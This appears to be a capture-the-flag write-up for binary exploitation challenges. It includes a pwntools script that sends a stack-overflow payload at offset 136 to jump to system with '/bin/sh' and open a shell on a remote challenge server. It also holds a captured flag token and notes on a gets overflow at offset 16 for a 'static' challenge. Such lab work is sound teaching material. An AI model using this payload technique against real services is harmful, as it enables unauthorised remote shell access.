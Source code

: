 # Now that we have our function and its argument, we can simply construct our payload
# containing these and place it at the offset of the return address.

Script/Command used
------------------
```
p = remote("plsdonthaq.me", 6001)

# Our payload consists of the 'system' function which we want to jump to,
# followed by the return address for 'system' (can be anything as we don't return),
# and finally the first argument for 'system' (being a pointer to the string /bin/sh).
payload = (
    p32(0x8048390) +
    b"XXXX" +
    p32(0x080485f0)
)

# We then send this payload at offset 136, overwriting the return address.
p.sendline(flat({
 136: payload
}))

# Now we have popped a shell, we can access the flag.
p.interactive()
```

static
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNi1zdGF0aWMiLCJpcCI6IjExMC4xNzQuNS4xMzciLCJzZXNzaW9uIjoiMWQ0ODhiZWYtMWRiMi00ZjM3LWFiZGItMDhjZjIwMDRjNWQ0In0.ZW1lwKz3FWm_DjnJLNvx43RjNGqLN6BRbIuqJMIQOew}

General overview of problems faced
-------------------------------------
# When opening this binary in binary ninja, there are way more functions than normal,
# which suggests that we might not need to use libc. The program itself simply calls
# gets on my input. Running this in gdb and passing in a cyclic sequence of length
# 300, it displays 'Invalid address 0x61616165'. Using cyclic -l '0x61616165', we can
# see the offset is 16. Hence, this is where we want to place our payload.
